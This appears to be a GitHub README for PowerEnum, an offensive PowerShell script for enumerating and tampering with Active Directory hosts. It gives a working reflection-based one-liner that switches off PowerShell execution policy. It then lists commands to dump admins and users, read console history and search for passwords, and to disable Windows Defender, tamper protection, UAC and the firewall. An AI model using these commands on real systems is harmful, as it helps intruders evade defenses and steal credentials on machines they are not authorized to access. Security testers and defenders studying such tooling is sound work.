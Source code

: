 # PowerEnum
Powershell script for enumerating Active Directory. Nothing new or ground breaking, just a cool project to further develop my knowledge of powershell, Windows and specifically AD.

# Usage

Download the **powerenum.ps1** script and get it onto your target system. This can be done multiple ways which you can figure out for yourself.

Once on the system you will need to import the script to be able to use it.

```posh
Import-Module powerenum.ps1
```

You will likely need to change the execution policy to run this script:

```posh
Set-ExecutionPolicy Bypass
```

If this does not work, you can run the following code to disable execution policy:

```posh
# Create the function
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}
# Execute the function
Disable-ExecutionPolicy
```

### Commands

##### Domain Information Gathering
```posh
# Retrieve some initial information about the domain including domain info and connected systems
Get-Basics 
# Get-Basics has 3 optional arguments
Get-Basics -IPAddress:$true -DomainInformation:$true -ConnectedSystems:$true
# Find listening ports and the service running on that port
Get-Listening

# Retrieve all the admins in the domain
Get-Admins
# Retrieve all OUs in the domain
Get-OUs
# Retrieve all groups in the domain
Get-AllGroups
# Retrieve all users in the domain
Get-AllUsers

# Retrieve all users who don't require a password
Get-NoPass
# Retrieve console history for a specified user
Get-History
# Disable Windows defender
Disable-Defender
# Add a folder to exclude from defender scans
Add-DefenderExclusion -Path <PATH>
# Disable tamper protection on the system
Disable-TamperProtection
# Disable UAC
Disable-UAC
# Disable the firewall on the system
Disable-Firewall
# Attempt to find passwords in the file system
Get-Passwords -Path <PATH>
# See if programs are set to install as always elevated
Get-AlwaysInstallElevated
```
